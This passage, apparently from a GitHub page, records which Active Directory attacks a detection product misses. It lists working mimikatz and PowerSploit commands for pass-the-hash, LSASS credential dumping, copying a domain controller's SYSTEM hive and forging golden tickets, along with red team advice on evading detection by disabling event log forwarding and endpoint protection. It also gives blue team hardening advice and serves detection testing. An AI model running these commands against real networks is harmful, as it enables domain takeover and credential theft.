 ```powershell
Add-DomainGroupMember -Identity sql01admins -Members edwardabbey
Set-DomainUserPassword -Identity webservice -AccountPassword$Password
```      

Over-Pass-The-Hash is detected using KRBTGT NTLM hash.

**Not detected**: Over-Pass-The-Hash using all hash/keys.

In a mimikatz console:

```powershell
sekurlsa::pth /user:administrator /domain:prod.local /aes256:<data> /ntlm:<hash> /aes128:<data>
```     

Lateral movement via SQL Auth is not detected.

For the dominance.

**Not detected**: PowerSploit: Mimikatz in memory w/ LSASS injection

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject"' -Computer dc03.prod.local
```      

**Not detected**: PowerSploit: Ninja-Copy (PSRemoting with Raw Disk Access)

```powershell
Invoke-NinjaCopy -Path "c:\Windows\System32\config\SYSTEM" -ComputerName "dc03.prod.local" -LocalDestination "c:\temp\system"
```      

**Not detected**: Golden ticket w/ AES Key

In mimikatz console:

```powershell
kerberos::golden /user:JohnVanwagoner /domain:prod.local /sid:sid /aes256:aes256 /groups:512,513,519 /startoffset:-1 /endin:2500 /renewmax:3000 /ptt
```    

|Red Team Takeaways|
|------------------|
|Return to living off the land, directly call APIs|
|Leverage host based PowerShell tools only after you've blocked or disabled ATP & event log forwarding|
|Review RDP/PS/Session history to help avoid user behavior analytics|
|Block event log forwarding to prevent Sysmon/WMI/PowerShell/Security logs giving you away|
|Use ACE/DACL abuse to help avoid using RCE when possible|
|Focus on info gathering and lateral movement techniques that don't comm with the DC, liks SQL auth and Silver Tickets|
|Kerberoast & Silver Ticket all the things|
|Use AES for Over-PTH, Golden Tickets|
|Abuse Forest Trusts|

|Blue Team Takeaways|
|-------------------|
|Limit PS Remoting sources to dedicated admin workstations|
|Use JEA (Just Enough Administration) to help prevent lateral movement success|
|Harden SQL servers, review forest trusts|
|Integrate SIEM/VPN logs into ATA|
|Use Event Log Forwarding for Sysmon and WMI logging with shorter polling times|
|Audit your AD object ACLs with BloodHound|
